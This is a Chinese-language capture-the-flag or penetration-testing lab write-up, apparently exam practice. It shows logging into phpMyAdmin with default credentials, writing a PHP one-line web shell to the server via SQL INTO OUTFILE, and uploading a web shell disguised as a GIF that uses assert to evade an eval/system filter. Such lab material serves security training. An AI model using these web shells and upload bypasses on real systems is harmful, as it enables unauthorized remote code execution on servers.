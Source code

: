 ![image-20221224174210934](F:/Typora_pic/pte/image-20221224174210934.png)

挺多东西的，看下哪些是有用的访问一下

先访问一下robots.txt

![image-20221224174351492](F:/Typora_pic/pte/image-20221224174351492.png)

有个数据库文件，下载下来

![image-20221224174426559](F:/Typora_pic/pte/image-20221224174426559.png)

记录了密码和数据库的结构，没什么用属于干扰项，

直接下一个去phpmyadmin

![image-20221224174520845](F:/Typora_pic/pte/image-20221224174520845.png)

弱口令默认密码root&toor就进去了

看一下数据库

![image-20221224174618099](F:/Typora_pic/pte/image-20221224174618099.png)

**key6:st3mmq73**

从马后炮的角度来讲，如果做了nmap的系统扫描，可以知道这个服务器是windows操作系统

那么在数据库里就可以用outfile来上传一句话木马，前提是知道了绝对路径和开启了联合查询

那么就可以简单尝试一下

```
select '<?php @eval($_POST[1]);?>' into outfile "C:\\wamp\\www\\test.php";
```

![image-20221226173343573](F:/Typora_pic/pte/image-20221226173343573.png)



![image-20221226173314584](F:/Typora_pic/pte/image-20221226173314584.png)



在库里找一下登陆的用户

![image-20221224174839946](F:/Typora_pic/pte/image-20221224174839946.png)

密码是MD5加密的，添加一个用户试一下，复制了一行之后登陆进去了

找到上传点，用BP拦截上传一下文件，注意一下这里同时过滤了eval和system

这里可以用**assert**

![image-20221224175934027](F:/Typora_pic/pte/image-20221224175934027.png)

```php+HTML
Content-Disposition: form-data; name="file[]"; filename="new.php"
Content-Type: image/gif

GIF89a
<?php @assert($_POST[1]);?>
```
